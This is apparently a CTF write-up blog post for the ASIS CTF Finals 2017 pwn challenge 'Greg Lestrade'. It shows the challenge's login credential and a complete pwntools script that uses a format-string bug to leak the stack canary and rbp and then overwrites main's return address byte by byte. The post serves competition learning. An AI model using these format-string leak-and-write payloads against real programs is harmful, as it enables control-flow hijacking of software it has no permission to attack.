 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2017/asis-ctf-finals-2017-greg-lestrade/
  - /blog/2017/09/11/asis-ctf-finals-2017-greg-lestrade/
date: "2017-09-11T08:09:22+09:00"
tags: [ "ctf", "writeup", "pwn", "asis-ctf" ]
---
```


# ASIS CTF Finals 2017: Greg Lestrade

他の問題が解けないのでプロが放置してたやるだけをやってお茶を濁した回2。

## problem

```
$ nc 146.185.132.36 12431
[*] Welcome admin login system! 

Login with your credential...
Credential : 7h15_15_v3ry_53cr37_1_7h1nk
0) exit
1) admin action
1
[*] Hello, admin 
Give me your command : 
```

## solution

Rewrite the return address of `main` with the flag function.
Use the format-string bug to read `rbp` and to rewrite it.

There is a bufferoverflow bug at reading credential, but it is not used.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='146.185.132.36')
parser.add_argument('port', nargs='?', default=12431, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./greg_lestrade')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)

credential = '7h15_15_v3ry_53cr37_1_7h1nk'
system_cat_flag = 0x400876
p = remote(args.host, args.port)
# p = process(args.binary)

p.sendlineafter('Credential : ', credential)

menu = '''\
0) exit
1) admin action
'''
p.sendlineafter(menu, '1')
payload = ''
payload += 'a' * 256
payload += '/%137$p/%138$p/'
p.sendlineafter('Give me your command : ', payload)
s = p.recvline()
canary = int(s.split('/')[1], 16)
rbp = int(s.split('/')[2], 16)
log.info('canary = %#x', canary)
log.info('rbp = %#x', rbp)

retaddr = rbp + 8
for i, c in enumerate(p64(system_cat_flag)):
    p.sendlineafter(menu, '1')
    payload = ''
    payload += 'a' * 256
    payload += '%' + str(ord(c) + 256) + 'c'
    payload += '%42$hhn'
    payload += ' ' * (256 + 16 - len(payload))
    payload += p64(retaddr + i)
    p.sendlineafter('Give me your command : ', payload)

p.interactive()
```
